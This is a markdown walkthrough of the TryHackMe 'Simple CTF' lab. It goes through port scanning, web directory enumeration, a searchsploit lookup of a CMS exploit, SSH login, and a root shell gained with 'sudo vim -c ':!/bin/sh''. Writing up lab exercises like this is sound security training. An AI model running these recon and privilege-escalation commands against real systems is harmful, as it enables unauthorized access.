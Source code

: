 # Simple CTF from tryhackme

## Step 1: Nmap scan
_nmap (an ip here)_  
![image](https://user-images.githubusercontent.com/12968503/124926209-26733c80-dff5-11eb-9ab6-4e559e7779c8.png)

_nmap -sC -sV (an ip here)_  
![image](https://user-images.githubusercontent.com/12968503/124926456-73571300-dff5-11eb-8bec-40eee45d4545.png)






## Step 2: Web Enum
_nikto -h http://the-ip-here_  
![image](https://user-images.githubusercontent.com/12968503/124926936-fb3d1d00-dff5-11eb-85ca-f4200a26c2b8.png)

_dirb http://the-ip-here_  
![image](https://user-images.githubusercontent.com/12968503/124927137-317a9c80-dff6-11eb-820a-bc51402c7a72.png)

_gobuster dir -u http://the-ip-here --wordlist /usr/share/wordlists/dirb/common.txt_  
![image](https://user-images.githubusercontent.com/12968503/124927672-cda4a380-dff6-11eb-9aa4-87e0b61de8a4.png)

According to the web enum the site is using a Simple CMS for their webserver
![image](https://user-images.githubusercontent.com/12968503/124927995-1f4d2e00-dff7-11eb-9fba-59cdb6494766.png)

![image](https://user-images.githubusercontent.com/12968503/124928133-43a90a80-dff7-11eb-8fad-21ee9e0d9f58.png)

We now have the version number of the CMS

## Step 3: Exploit DB
searchsploit (any service and version number you want to look up)

![image](https://user-images.githubusercontent.com/12968503/124928440-7eab3e00-dff7-11eb-9ae0-f39ad08b551c.png)

Now run the exploit against the simple directory and you should get the credentials

## Step 4: Login to SSH
Once logged in look around  
Check for SUID files with:  
_find / -perm -u=s -type f 2>/dev/null_  
Nothing in here

Check for sudo privs with sudo -l  
![image](https://user-images.githubusercontent.com/12968503/124932230-cc757580-dffa-11eb-9caf-4a4e6ccfa87d.png)

As it turns out the user can run Vim as root

## To get Root 
open vim by using:  
sudo vim -c ':!/bin/sh'

![image](https://user-images.githubusercontent.com/12968503/124931837-7e607200-dffa-11eb-9b6d-adb7af586b5f.png)

